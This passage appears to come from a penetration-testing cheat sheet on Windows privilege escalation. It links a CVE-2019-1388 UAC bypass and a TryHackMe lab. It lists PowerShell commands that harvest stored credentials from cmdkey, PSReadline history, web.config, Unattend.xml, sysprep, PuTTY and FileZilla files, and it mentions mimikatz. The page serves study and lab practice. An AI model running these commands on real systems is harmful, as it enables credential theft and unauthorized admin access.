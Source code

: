 * ➡️ [CVE-2019-1388](https://github.com/nobodyatall648/CVE-2019-1388)

[![blaster](../../_badges/thm-p/blaster.svg)](https://tryhackme.com/room/blaster)

Exploit User Account Control (UAC) which is the popup prompted when trying to run a program as administrator.
</div></div>

<hr class="sep-both">

## Find credentials

<div class="row row-cols-md-2 mt-4"><div>

* ➡️ List saved credentials by Windows

```powershell
PS> cmdkey /list
# use to start a root shell
PS> runas /savecred /user:admin cmd.exe
```

* ➡️ See the shell history

```powershell
PS> type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
CMD> type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

* ➡️ Check the browser saved credentials

* ➡️ Check the registry (need admin)

* ➡️ There is [mimikatz/kiwi](https://github.com/gentilkiwi/mimikatz) (16.4k ⭐) to extract passwords from the memory. For instance, if there is a task running belonging to a user, even if they are not logged in, we can get their password.
</div><div>

* ➡️ List credentials saved by applications

```powershell
# Internet Information Services (IIS) = the default web server
PS> type C:\inetpub\wwwroot\web.config | findstr connectionString
PS> type C:\Windows\Microsoft.NET\Framework64\vX.X.XXXXX\Config\web.config | findstr connectionString
# Windows Deployment Services (credentials of the admin that
# deployed the OS image to several hosts, referred as "Unattended")
PS> type C:\Unattend.xml
PS> type C:\Windows\Panther\Unattend.xml
PS> type C:\Windows\Panther\Unattend\Unattend.xml
PS> type C:\Windows\system32\sysprep.inf
PS> type C:\Windows\system32\sysprep\sysprep.xml
# Putty
PS> reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
# VNC servers
# FileZilla
PS> type C:\xampp\FileZilla Server\FileZilla Server.xml
PS> type C:\Program Files\FileZilla Server\FileZilla Server.xml
```
</div></div>
